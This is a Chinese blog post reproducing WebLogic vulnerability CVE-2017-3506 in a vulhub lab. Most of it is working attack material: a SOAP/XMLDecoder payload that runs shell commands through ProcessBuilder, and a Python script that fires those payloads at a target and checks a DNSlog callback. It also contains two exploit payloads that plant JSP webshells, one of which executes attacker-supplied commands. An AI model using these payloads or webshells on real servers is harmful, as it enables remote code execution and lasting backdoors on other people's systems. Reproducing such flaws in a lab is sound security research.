





Title:weblogic漏洞CVE-2017-3506复现：Web Services模块的漏洞
Date: 2018-01-09 16:20
Category: 漏洞实践
Tags: 漏洞,Java,反序列化,weblogic
Slug: 
Authors: bit4
Summary: 

### 0x0、漏洞概述

Supported versions that are affected are 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1 and 12.2.1.2

### 0x1、环境部署

直接以P神的的vulhub中的环境就可以。其中的版本恰好是10.3.6(11g)，是存在漏洞的。安装其中的指引直接启动镜像就可以了。

https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password


### 0x2、PoC的一些关键点

**请求构造**

在浏览器中访问http://xx.xx.132.37:7001/wls-wsat/CoordinatorPortType，通过burp抓包放到repeater中。

更换请求方式为post，修改Content-Type为text/xml，并贴入以下内容作为POST的data部分。这个PoC等同于命令：/bin/bash -c "touch /tmp/123"。

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>touch /tmp/123</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

截图如下：



**经过测试，PoC基本有以下关键点**：

1. 命令以空格分开，每一部分占一个数组元素，（上一个例子里“touch /tmp/123”是一个参数，算作一个数组元素；比如我们直接只使用一个元素 touch /tmp/123就不会成功）；
2. 数组的长度必须和实际相匹配，比如上图就只能是3，不能多也不能少。

实验截图如下：

命令/bin/bash -c "touch /tmp/123" 的









### 0x3、自动检测脚本

上面的PoC是在本地生成文件，需要登录系统查看，而且需要依赖burp发包。我想更进一步，试试写个自动化检测脚本。大概弄清除了PoC的一些关键点后，可以尝试修改命令来构造检测脚本了。我们这里使用自己搭建的DNSlog来检查无回显的命令执行（如果单纯http请求而不是DNS请求，可以试试https://requestb.in/）。

payload中的命令分别为：

```
C:\Windows\System32\cmd.exe /c "ping -n 3 test.com || ping -c 3 test.com"

/bin/bash -c "ping -n 3 test.com || ping -c 3 test.com"
```

完整的检测脚本如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import requests
import sys
import urlparse

dnslog_address= "test.0y0.link"

heads = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Content-Type': 'text/xml;charset=UTF-8',
    }
linux_poc =r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
windows_poc=r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>C:\Windows\System32\cmd.exe</string>
              </void>
              <void index="1">
                <string>/c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
def detect(url,data):
    try:
        req = requests.post(url + '/wls-wsat/CoordinatorPortType', data=data, verify=False, timeout=3, headers=heads)
        #print req.content
        req.close()
    except Exception as e:
        print e
def check_dnslog(host,port):
    verify_url= "http://admin.0y0.link/api/dns/{0}/{1}/".format(dnslog_address.split(".")[0],host)
    #verify_url = "http://dnslog/api.php?apikey=yoursapikey&action={action}&domain={host}"
    print verify_url
    try:
        verify_rep = requests.get(verify_url, timeout=60, verify=False,allow_redirects = False)
        return verify_rep.content
    except Exception as e:
        return False

if __name__ == "__main__":
    if len(sys.argv)==2:
        try:
            x = urlparse.urlparse(sys.argv[1])
            procotol = x.scheme
            host = x.netloc.split(":")[0]
            port = x.port
            url = "{0}://{1}:{2}".format(procotol,host,port)
            domain = "{0}.{1}.{2}".format(port,host,dnslog_address)
            payload = "ping -n 3 {0} || ping -c 3 {1}".format(domain,domain)
            print "payload: {0}".format(payload)
            linux_data =linux_poc.format(payload)
            windows_data = windows_poc.format(payload)
            #print linux_data
            #print windows_data
            detect(url,linux_data)
            detect(url,windows_data)
            print check_dnslog(host,port)
        except Exception,e:
            print e
    else:
        print "usage:python {0} http://127.0.0.1:7001".format(sys.argv[0])
```

运行效果如下：



#### 0x4、EXP的实现思路

从各种资料中学习到2种思路：

一是继续利用上面的PoC进行改造，利用各种系统命令来实现（也就是利用java.lang.ProcessBuilder）；

https://cxsecurity.com/issue/WLB-2018010082

二是使用不同类和参数，通过Java代码实现（比如通过java.io.PrintWriter直接写入webshell）

https://threathunter.org/topic/5a426e6bec721b1f1966f238

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
            <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/bb1fe939c9ec5.jsp</string><void method="println">
                    <string><%@ page language="java" pageEncoding="gbk"%><jsp:directive.page import="java.io.File"/><jsp:directive.page import="java.io.OutputStream"/><jsp:directive.page import="java.io.FileOutputStream"/><input type="hidden" path="<%=application.getRealPath("/") %>"><%response.setStatus(404);%></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

https://threathunter.org/topic/5a436cc6ec721b1f1966f270

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%
    if("ty".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[102400];          
        out.print("<pre>");          
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
        out.print("</pre>");
    } 
    out.print("test"); 
    %>]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
```

这个方法中找到当前绝对路径是个关键，查找当前路径的方法：

```bash
for i in `find $(find ./ -type d -name bea_wls_internal) -type f -name ".beamarker.dat"| xargs -I {} echo {}.txt`; do echo `pwd` "$i" >$i; done

#1.先找到bea_wls_internal目录的绝对路径
#2.在bea_wls_internal目录的路径中找“.beamarker.dat”文件的绝对路径
#3.对每个路径下的“.beamarker.dat”都创建一个“.beamarker.dat.txt”
#4.将当前路径和“.beamarker.dat.txt”的绝对路径都写入到当前的“.beamarker.dat.txt”中
```


参考：

1. https://www.anquanke.com/post/id/92003
2. https://cxsecurity.com/issue/WLB-2018010082
3. https://threathunter.org/topic/5a426e6bec721b1f1966f238
4. https://threathunter.org/topic/5a436cc6ec721b1f1966f270